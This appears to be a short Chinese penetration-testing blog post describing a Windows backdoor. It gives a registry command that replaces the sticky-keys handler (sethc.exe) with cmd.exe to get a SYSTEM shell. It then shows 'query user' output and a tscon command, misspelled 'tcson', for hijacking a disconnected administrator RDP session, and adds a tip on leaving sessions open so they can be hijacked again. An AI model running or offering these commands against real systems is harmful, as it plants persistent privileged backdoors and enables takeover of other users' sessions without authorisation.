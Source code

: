 ```yaml
---
title: "Mstsc tscon 后门"
date: 2018-07-11T00:00:00+08:00
draft: false
author: "X1r0z"

tags: []
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


**System 权限**

`nt authority\system`

shift 注册表劫持.

<!--more-->

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

`query user` 查看 ID.

```
USERNAME        SESSIONNAME     ID  STATE  IDLE TIME   LOGON TIME
administrator   rdp-tcp#1        1  Disc       none    6/30/2018 10:00
```

输入命令 `tcson 1`

*注意关闭远程桌面的时候不要点注销, 而是直接点右上角的X, 这样下次连接的时候还能进行切换.*